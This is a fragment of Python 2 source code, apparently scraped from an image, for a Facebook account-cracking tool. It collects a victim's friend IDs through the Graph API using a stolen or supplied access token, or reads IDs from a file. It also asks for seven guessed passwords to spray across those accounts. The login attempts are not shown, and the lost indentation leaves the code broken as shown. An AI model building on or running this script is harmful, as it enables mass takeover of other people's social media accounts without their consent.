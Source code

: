 pass2=raw_input(" Put Password No 2 : ")
pass3=raw_input(" Put Password No 3 : ")
pass4=raw_input(" Put Password No 4 : ")
pass5=raw_input(" Put Password No 5 : ")
pass6=raw_input(" Put Password No 6 : ")
pass7=raw_input(" Put Password No 7 : ")
os.system("clear")
print (logo)
try:
jok = session.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
op = json.loads(jok.text)
psb("[✓] Account Name: "+op["name"])
time.sleep(0.5)
except KeyError:
print("[!] ID Not Found!")
raw_input("\n[Back]")
choice_menu()
r = session.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
z = json.loads(r.text)
for i in z["data"]:
id.append(i["id"])
elif bch =="3":
os.system("clear")
print (logo)
try:
idlist = raw_input("[✓] Enter File Path : ")
pass1=raw_input(" Put Password No 1 : ")
pass2=raw_input(" Put Password No 2 : ")
pass3=raw_input(" Put Password No 3 : ")
pass4=raw_input(" Put Password No 4 : ")
pass5=raw_input(" Put Password No 5 : ")
pass6=raw_input(" Put Password No 6 : ")
pass7=raw_input(" Put Password No 7 : ")
for line in open(idlist,"r").readlines():
id.append(line.strip())
except IOError:
print ("[!] File Not Found")
raw_input("\n[ Back ]")
choice_menu()
elif bch =="0":
menu()
else:
print ("[!] Fill in correctly")
choice_action()
xxx = str(len(id))
psb ("[✓] Total Friends: "+xxx)
time.sleep(0.5)
psb ("[✓] Please wait, process is running ...")
time.sleep(0.5)
psb ("[!] To Stop Process Press CTRL Then Press z")
time.sleep(0.5)
print (50*"-")
print
